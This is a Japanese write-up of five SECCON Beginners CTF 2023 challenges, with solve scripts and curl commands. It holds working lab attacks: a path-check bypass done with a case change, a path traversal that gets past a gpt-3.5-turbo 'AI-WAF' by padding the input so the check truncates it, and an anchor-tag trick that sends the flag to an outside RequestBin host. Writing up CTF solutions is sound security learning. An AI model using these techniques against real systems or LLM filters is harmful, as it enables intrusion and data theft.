






# SecconBeginnersCTF2023

- 開催期間：2023/06/03 - 2023/06/04
- 参加時間： 約4時間

## CoughingFox2

暗号化処理(main.py)と暗号化結果(cipher.txt)が与えられている。

```
# main.py
# coding: utf-8
import random
import os

flag = b"ctf4b{xxx___censored___xxx}"

# Please remove here if you wanna test this code in your environment :)
flag = os.getenv("FLAG").encode()

cipher = []

for i in range(len(flag)-1):
    c = ((flag[i] + flag[i+1]) ** 2 + i)
    cipher.append(c)

random.shuffle(cipher)

print(f"cipher = {cipher}")

```
```
# cipher.txt
cipher = [4396, 22819, 47998, 47995, 40007, 9235, 21625, 25006, 4397, 51534, 46680, 44129, 38055, 18513, 24368, 38451, 46240, 20758, 37257, 40830, 25293, 38845, 22503, 44535, 22210, 39632, 38046, 43687, 48413, 47525, 23718, 51567, 23115, 42461, 26272, 28933, 23726, 48845, 21924, 46225, 20488, 27579, 21636]

```

n文字目とn+1文字目から計算した値を暗号としてリストに追加していき最後にリストの並び順を変えている。  
cipherのリストがシャッフルされているものの、文字は半角英数字記号(asciiで1~126程度)と予想できるのでこの範囲で当てはめていってcipherリストの中にあるものが平文と判断できる。  
またflag形式が"ctf4b{...}"なので、n文字目がわかっていてn+1文字目を特定するという形で連鎖的に復号できる。  

以下を書いて実行。  

```
# solve.py
cipher = [4396, 22819, 47998, 47995, 40007, 9235, 21625, 25006, 4397, 51534, 46680, 44129, 38055, 18513, 24368, 38451, 46240, 20758, 37257, 40830, 25293, 38845, 22503, 44535, 22210, 39632, 38046, 43687, 48413, 47525, 23718, 51567, 23115, 42461, 26272, 28933, 23726, 48845, 21924, 46225, 20488, 27579, 21636]

p = ord("c")
for i in range(len(cipher)-1):
	print(chr(p), end="")
	for n in range(1,126):
		if ((p + n) ** 2 + i) in cipher:
			p = n
			break
print("}")
```
```
(⁎'~') < python3 solve.py 
ctf4b{hi_b3g1nner!g00d_1uck_4nd_h4ve_fun!!}
```

----

## Conquer

暗号化処理(problem.py)と暗号化結果(output.txt)が与えられている。

```
# problem.py
from Crypto.Util.number import *
from random import getrandbits
from flag import flag

def ROL(bits, N):
    for _ in range(N):
        bits = ((bits << 1) & (2**length - 1)) | (bits >> (length - 1))
    return bits


flag = bytes_to_long(flag)
length = flag.bit_length()

key = getrandbits(length)
cipher = flag ^ key

for i in range(32):
    key = ROL(key, pow(cipher, 3, length))
    cipher ^= key

print("key =", key)
print("cipher =", cipher)
```

```
key = 364765105385226228888267246885507128079813677318333502635464281930855331056070734926401965510936356014326979260977790597194503012948
cipher = 92499232109251162138344223189844914420326826743556872876639400853892198641955596900058352490329330224967987380962193017044830636379
```

処理としては、以下。  
1. flagとkeyをXORしたものをcipherに入れる。
2. keyをROL関数で更新、cipherにXORする、を32回繰り返す。

暗号化処理としてはXORしかしていないので、逆順に同じものをXORすればもとのflagが得られる。  
ROL関数はなんかビット演算をしている。  
OR(|)の左側で、1ビット左シフトとlengthビット全て1のものをAND演算、つまり最上位ビット以外が1ビット左シフトした状態に  
OR(|)の右側で、length-1ビット右シフト、つまりもとの最上位ビットが最下位ビットに移動した状態に  
それぞれなっているので、全体を左シフトし最上位ビットのみ最下位ビットに移動するということをやっている。  
それをN回繰り返しているので、ROL関数は左にN回ビットローテーションしたものを返す関数とわかる（問題文と関数名がヒント）。  

なのでROL関数の逆、右ローテーションをする関数に置き換えれば良い。  
lengthはflagの長さで、ROL関数に使われているため基本的にkeyの長さに一致するが最上位ビットに0が回ってくると一致しなくなるため、与えられたkeyのビット長と同じか、多少長くした値だと予想できる。  

ということで、以下を書いてlengthの長さを変えながら実行。 
keyの長さ+1でヒットした。  

```
# solve.py
from Crypto.Util.number import *

def reverse_ROL(bits, N):
    for _ in range(N):
        bits = ((bits >> 1) & (2**length - 1)) | ((bits & 1) << (length - 1)) 
    return bits

key = 364765105385226228888267246885507128079813677318333502635464281930855331056070734926401965510936356014326979260977790597194503012948
cipher = 92499232109251162138344223189844914420326826743556872876639400853892198641955596900058352490329330224967987380962193017044830636379

length = key.bit_length() + 1

for i in range(32):
    cipher ^= key
    key = reverse_ROL(key, pow(cipher, 3, length))
print(long_to_bytes(cipher ^ key))

```
```
(⁎'~') < python3 solve.py
b'ctf4b{SemiCIRCLErCanalsHaveBeenConqueredByTheCIRCLE!!!}'
```

---

## Forbidden

URLとソースコードが与えられている。  
アクセスすると /flag へのリンクのみのページ。  
そのまま /flag へいくと403。  




ソースコードを見ると"/flag"を含んでいる場合に403が返されることがわかる。  

```
# index.js
const block = (req, res, next) => {
    if (req.path.includes('/flag')) {
        return res.send(403, 'Forbidden :(');
    }

    next();
}

app.get("/flag", block, (req, res, next) => {
    return res.send(FLAG);
})
```

大文字にすれば良いだけ。

```
(⁎'~') < curl https://forbidden.beginners.seccon.games/flaG
ctf4b{403_forbidden_403_forbidden_403}%                                                                                     
```

----

## aiwaf

URLとソースコードが与えられている。  
アクセスすると以下のページ。  



ソースコードは以下。  

```
# app.py
import uuid
import openai
import urllib.parse
from flask import Flask, request, abort

# from flask_limiter import Limiter
# from flask_limiter.util import get_remote_address

##################################################
# OpenAI API key
KEY = "****REDACTED****"
##################################################

app = Flask(__name__)
app.config["RATELIMIT_HEADERS_ENABLED"] = True

# limiter = Limiter(get_remote_address, app=app, default_limits=["3 per minute"])

openai.api_key = KEY

top_page = """
<!DOCTYPE html>
<html lang="ja">
<head>
    <meta charset="utf-8" />
    <title>亞空文庫</title>
</head>

<body>
    <h1>亞空文庫</h1>
    AIにセキュリティの物語を書いてもらいました。<br>
    内容は正しいかどうかわかりません。<br>
<ul>
    <li><a href="/?file=book0.txt">あ書</a></li>
    <li><a href="/?file=book1.txt">い書</a></li>
    <li><a href="/?file=book2.txt">う書</a></li>
    <!-- <li><a href="/?file=book3.txt">え書</a></li> -->
</ul>

※セキュリティのためAI-WAFを導入しています。<br>
© 2023 ももんがの書房
</body>

</html>
"""


@app.route("/")
def top():
    file = request.args.get("file")
    if not file:
        return top_page
    if file in ["book0.txt", "book1.txt", "book2.txt"]:
        with open(f"./books/{file}", encoding="utf-8") as f:
            return f.read()
    # AI-WAF
    puuid = uuid.uuid4()
    prompt = f"""\
以下の{puuid}に囲まれた部分のURLクエリはパストラバーサル攻撃でしょうか？
そうである場合Yesを、違う場合Noを返してください。
../やflagという文字列が含まれていた場合もYesを返してください。

{puuid}
{urllib.parse.unquote(request.query_string)[:50]}
{puuid}
"""
    try:
        response = openai.ChatCompletion.create(
            model="gpt-3.5-turbo",
            messages=[
                {
                    "role": "user",
                    "content": prompt,
                },
            ],
        )
        result = response.choices[0]["message"]["content"].strip()
    except:
        return abort(500, "OpenAI APIのエラーです。\n少し時間をおいてアクセスしてください。")
    if "No" in result:
        with open(f"./books/{file}", encoding="utf-8") as f:
            return f.read().replace(KEY, "")
    return abort(403, "AI-WAFに検知されました👻")


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=31415)

```

パラメータfileにファイルパスを渡せばそのファイルの中身を見れる処理になっているが、パラメータをChatGPTに渡してパストラバーサル攻撃か聞いている。  
パストラバーサル攻撃と判定された場合は403を返している。  
先に書かれている命令をこちらで上書きする感じかと思ったが、そもそもデコードした文字列を50文字までしか渡していないので意味ないパラメータを前につけるだけで良さそう。  
ちなみにflagの場所は配布ファイルからわかっている。  



以下でリクエスト。  

```
(⁎'~') < curl "https://aiwaf.beginners.seccon.games/?a=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&file=../flag"
ctf4b{pr0mp7_1nj3c710n_c4n_br34k_41_w4f}% 
```

~~

作問者のwriteupにはChatGPTを騙す方の例も書いてあったが、いくつか試しても通らなかった。  
競技中も学習してるらしい。  

----


## phisher2

URLとソースコードが与えられている。  
アクセスするとHTMLコードをPOSTしてみろと言うページ。  



ページ内に書いてあるcurlコマンドサンプルは以下。  

```
curl -X POST -H "Content-Type: application/json" -d '{"text":"https://phisher2.beginners.seccon.games/foobar"}' https://phisher2.beginners.seccon.games
```

ソースコードを見ると、json形式でtextに入っている値をhtmlファイルに保存し、share2adminという関数を呼んでいる。

```
# app.py
import os
import uuid
from admin import share2admin
from flask import Flask, request

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    return open("./index.html").read()

@app.route("/", methods=["POST"])
def chall():
    try:
        text = request.json["text"]
    except Exception:
        return {"message": "text is required."}
    fileId = uuid.uuid4()
    file_path = f"/var/www/uploads/{fileId}.html"
    with open(file_path, "w", encoding="utf-8") as f:
        f.write(f'<p style="font-size:30px">{text}</p>')
    message, ocr_url, input_url = share2admin(text, fileId)
    os.remove(file_path)
    return {"message": message, "ocr_url": ocr_url, "input_url": input_url}


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0")

```

処理を追っていくと以下をやっている。  
1. 保存したhtmlファイルをwebdriverを使って開き、スクリーンショットを撮り、そこからOCRで文字列を取得。
2. 1.で取得した文字列から正規表現でURLを抽出。
3. 上記とは別に実際に受け取ったtext文字列から正規表現でURLを抽出。
4. OCRで取得した方のURLだけ環境変数APP_URLで始まっているかを確認し、真なら3.で取得したURLへflagをパラメータにつけリクエスト。

```
# admin.py
import os
import re
import pyocr
import requests
from PIL import Image
from selenium import webdriver

APP_URL = os.getenv("APP_URL", "http://localhost:16161/")
FLAG = os.getenv("FLAG", "ctf4b{dummy_flag}")

# read text from image
def ocr(image_path: str):
    tool = pyocr.get_available_tools()[0]
    return tool.image_to_string(Image.open(image_path), lang="eng")


def openWebPage(fileId: str):
    try:
        chrome_options = webdriver.ChromeOptions()
        chrome_options.add_argument("--no-sandbox")
        chrome_options.add_argument("--headless")
        chrome_options.add_argument("--disable-gpu")
        chrome_options.add_argument("--disable-dev-shm-usage")
        chrome_options.add_argument("--window-size=1920,1080")
        driver = webdriver.Chrome(options=chrome_options)
        driver.implicitly_wait(10)
        url = f"file:///var/www/uploads/{fileId}.html"
        driver.get(url)

        image_path = f"./images/{fileId}.png"
        driver.save_screenshot(image_path)
        driver.quit()
        text = ocr(image_path)
        os.remove(image_path)
        return text
    except Exception:
        return None


def find_url_in_text(text: str):
    result = re.search(r"https?://[\w/:&\?\.=]+", text)
    if result is None:
        return ""
    else:
        return result.group()


def share2admin(input_text: str, fileId: str):
    # admin opens the HTML file in a browser...
    ocr_text = openWebPage(fileId)
    if ocr_text is None:
        return "admin: Sorry, internal server error."

    # If there's a URL in the text, I'd like to open it.
    ocr_url = find_url_in_text(ocr_text)
    input_url = find_url_in_text(input_text)

    # not to open dangerous url
    if not ocr_url.startswith(APP_URL):
        return "admin: It's not url or safe url.", ocr_url, input_text

    try:
        # It seems safe url, therefore let's open the web page.
        requests.get(f"{input_url}?flag={FLAG}")
    except Exception:
        return "admin: I could not open that inner link.", ocr_url, input_text
    return "admin: Very good web site. Thanks for sharing!", ocr_url, input_text
```

OCRで抽出したURLが環境変数から取得したURLで始まって入ればよいだけなので、aタグで表示だけ変えれば良い。  
4.でアクセスさせる先はRequestBinを使う。  
送るのはこれだけ。  

```
<a href=\"https://eo5qevb8wsh0csx.m.pipedream.net\">https://phisher2.beginners.seccon.games/foobar</a>
```
```
(⁎'~') < curl -X POST -H "Content-Type: application/json" -d '{"text":"<a href=\"https://eo5qevb8wsh0csx.m.pipedream.net\">https://phisher2.beginners.seccon.games/foobar</a>"}' https://phisher2.beginners.seccon.games
{"input_url":"<a href=\"https://eo5qevb8wsh0csx.m.pipedream.net\">https://phisher2.beginners.seccon.games/foobar</a>","message":"admin: Very good web site. Thanks for sharing!","ocr_url":"https://phisher2.beginners.seccon.games/foobar"}
```

RequestBin側を確認すると来てた。　　




